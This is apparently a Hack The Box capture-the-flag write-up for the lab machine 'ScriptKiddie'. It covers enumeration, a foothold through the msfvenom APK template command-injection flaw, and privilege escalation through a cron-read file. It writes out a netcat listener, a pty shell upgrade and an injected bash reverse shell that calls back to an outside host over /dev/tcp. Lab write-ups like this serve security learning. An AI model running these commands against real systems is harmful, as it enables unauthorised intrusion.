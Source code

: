 # ScriptKiddie
### Machine Maker(s): [0xdf](https://www.hackthebox.eu/home/users/profile/4935)

#### Info :
``` 
OS          : Linux
Difficulty  : Easy
Points      : 20
Release     : 06 Feb 2021
IP          : 10.10.10.226
```
---
### Enumeration

Scanning the ip address we find an open **SSH** port and a web-page hosted on port 5000         
![](images/nmap.png)

I tried running dirbuster in hopes of finding a directory for uploads of the template file but it was in vain.       

I checked the sourcecode couldn't find much of anything there, checked for filters in the input, checked for js files but none of them were linked in the sourcecode. 

After lurking in the Official forum for sometime they were talking about metasploit a lot but I didn't understand why. Then I read the payloads section again, it must be something related to template file upload and msfvenom, so i started googling.

### Foothold

I found a **command injection vulnerability** in msfvenom payload generator when using a crafted APK file as a Android payload template.

After looking up in different sites I found how to reproduce it in the Official Metasploit [repo](https://github.com/rapid7/metasploit-framework/pull/14331)

Following the instructions there I was able to generate an apk file using msfconsole.
![](images/poc.png)     
Fire up a netcat listener for the reverse shell      
```bash
$ nc -lvnp port
```
and enter your LHOST and upload your apk file onto the target site.

We got a reverse shell.         
Use this to get a python interactive shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Privilege Escalation

After lurking around we find another user **pwn** who has a cronjob running so we try to get a horizontal privilege escalation.

The scanloser.sh file doesn't have write permissions for user kid **kid**.      
Looks like hackers is being run everytime scanlosers.sh runs so we try to write into that, **kid** has permissions to write into it.        

So we try to write a bash reverse shell.        
use the following command to echo the bash shell into hackers
```bash
echo "         ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'  #" >> hackers
```
Don't forget to fire up another netcat listener for this as well.

We get the shell for the user pwn       
Let's check the user permissions for this user
```bash
$ sudo -l
```
We can run /opt/metasploit-framework-6.0.9/msfconsole without password as root

Lets fire up msfconsole and check the root.txt from there.
```bash
msf6 > cat /root/root.txt
```

Voila! We have the root flag.
